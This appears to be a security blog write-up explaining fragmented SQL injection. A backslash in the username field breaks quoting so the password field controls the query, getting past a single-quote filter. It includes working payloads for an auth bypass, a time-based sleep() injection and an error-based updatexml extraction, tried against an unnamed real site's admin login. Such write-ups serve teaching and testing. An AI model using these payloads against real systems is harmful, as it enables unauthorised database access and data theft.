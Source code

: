 ```yaml
---
title: Fragmented SQL injection.
date: 2025-01-25 20-00-00
categories: SQLi
tags: sql, injection
description: Bypass filters designed to block string-based SQL injection.
author: <author_1>
---
```



## Why This happen ?

This bypass occurs when two input fields are combined to exploit the authentication form.

If attackers can control multiple inputs and those inputs are processed within the same query, they can use fragmented payloads to evade blacklists and character restrictions with this technique.

Here is an example of login query that take two inputs from user.

```sql
SELECT * FROM login WHERE username = '$username' AND password = '$password';
```

but there is a filter function that strip single quote from user inputs.

example :

```php
function someFilter($input) {
    return str_replace("'", "", $input);
}
```

if an attacker try to bypass login :

```
$username = "' or 1=1#";
$password = "uzundz"
```

```sql

select * from users where username=' or 1=1#' and password='uzundz';
```

the single quote was striped , therfore the auth bypass fail.

## Escaping the string quote :

Fortunately, SQL provides a way to escape special characters using a backslash ( \ )!

```sql
SELECT 'Uzun\'Dz'
```

![Desktop View](images/escapesinglequote.jpg){: .normal }

However, this behavior can be exploited outside its original context, allowing us to manipulate the parsing of SQL statements, as demonstrated in the following example:

```sql
SELECT * FROM login WHERE username = '$username' AND password = '$password';
```

Using a backslash as $username causes the parser to treat the next single quote as a regular character, effectively ignoring it. The parser then searches for the next single quote to pair with the initial one, which ends up being the quote that starts the password value.

What parser will do is the following:


```sql
SELECT * FROM login WHERE username = '\' AND password = '$password';
```
the username field will take `\' AND password =`  as value.
So by controlling the $password field, we can control the query.


## Real world scenario :

During my exploration on a specific domain ( let's refer to it as WEBSITE).
I stumbled upon an admin login at https://WEBSITE/admin/index.php 

first thing to check is auth bypass :

```
username: ' or 1=1-- -
password: strongPass
```

that didn't work because there is a filter in place that replace single quote with nothing.

Here backslash Trick will be handy.
trying the following values for username and password.

```
username: \
password: admin
```

Error :
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin')' at line 1
```

let's inverse :
```
username: admin
password: \
```

Error :

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\')' at line 1
```

### Conclusion :

- ablity to control both parameter in current sql query.
- ablity to escape single quote by using backslash \
- as result we can control the query.
- there is a parenthesis at the end of password field.

Next, i tried sleep function to observe the response time : 

```
username: \
password: and if (1=1 , sleep(15), 0) )-- -
```
Error:

```
Incorrect number of arguments for PROCEDURE DATABASENAME.exampleFunction; expected 2, got 1
```

during the exploitation process i created this tiny database to play with.
and i will use it to show what i faced with the target.

<a href="https://sqlfiddle.com/mysql/online-compiler?id=f437f206-b438-432b-ae21-d8ee12f7816b"> SQL fiddle </a>

imagination of procedure call :

```sql
DELIMITER //
CREATE PROCEDURE exampleFunction ( IN user VARCHAR(255) , IN pass VARCHAR(255))  
BEGIN  
    SELECT * FROM user_table WHERE username = user and password = pass;     
END //
DELIMITER ; 
```

in php code something like that :

```php
$query = "CALL exampleFunction('$username','$password')"
```

remeber that we injected \ in username to break from string
and our payload in password , something like that :

```php
$query = "CALL exampleFunction('\','and if (1=1 , sleep(15), 0) )-- -')"
```

that raised the error :
```
Incorrect number of arguments for PROCEDURE DATABASENAME.exampleFunction; expected 2, got 1
```

Example in fiddle :

![Desktop View](images/sqlifiddle1.PNG){: .normal }

the username field took this value `\',` and, without the colon the exampleFunction received one arguemnt.

tweak our payload to have two arguments by adding seperator `,` in password field :

```
username: \
password: ,if(1=1,sleep(15),0))-- -
```

query be like :

```php
$query = "CALL exampleFunction('\',' , if (1=1,sleep(15),0))-- -')"
```

imagination of SELECT statement after the procedure call :

```sql
SELECT * FROM user_table WHERE column1 = '\',' and password = if (1=1,sleep(15),0)-- -;   
```

The response took more than 15 seconds to load , which mean sleep() executed successfully.

![Desktop View](images/sleepexec.PNG){: .normal }

### Trying error based approach :

Set the folowing values to username and password.

```
username = \
password = , updatexml(null,concat(0x7e,database(),0x7e),null))-- -
```

### Result 

```
XPATH syntax error: '~DATABASENAME~'
```

Example in  fiddle :

![Desktop View](images/sqlifiddle2.PNG){: .normal }

